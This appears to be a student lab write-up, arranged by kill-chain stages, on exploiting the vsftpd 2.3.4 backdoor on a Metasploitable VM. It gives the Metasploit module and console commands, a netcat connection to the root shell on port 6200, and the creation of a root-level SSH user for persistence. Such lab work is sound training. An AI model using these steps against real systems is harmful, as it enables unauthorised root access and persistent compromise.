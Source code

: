 # Exploiting `vsftpd`

--- 

## Metasploit Method

### Reconnaissance
- Netdiscover to identify IP Address of Metasploitable (Target) VM 
- A bash script running nmap scans to identify: 
    - Open Ports 
    - Services 
    - Versions 
    - Operating System

- Identified Port 21 is open and running vsftpd 2.3.4 which is vulnerable to Backdoor Command Execution 

### Weaponization
- Used Metasploit Framework to automate the exploit 
- The exploit used is vsfptd_234_backdoor 
- Metaploit path is `exploit/unix/ftp/vsftpd_234_backdoor`

```bash 
msfconsole 
search vsftpd 
use 1 
set RHOSTS 192.168.56.105
```

### Delivery

- Ran the exploit 

```bash 
run 
```

### Exploitation 

- The exploit opens listening port 6200 on the Target VM
- On another terminal used netcat to connect to port 6200 
- nc 192.168.56.105 6200
- A terminal with root privileges was achieved 

### Installation 
- Created a new user with root-level SSH 

### Command And Control 
- The listening port on 6200 acts as a C2C channel
- When connected via SSH this becomes the new C2C channel

### Actions On Objectives 

- Exploitation was achieved 
- An SSH user was created 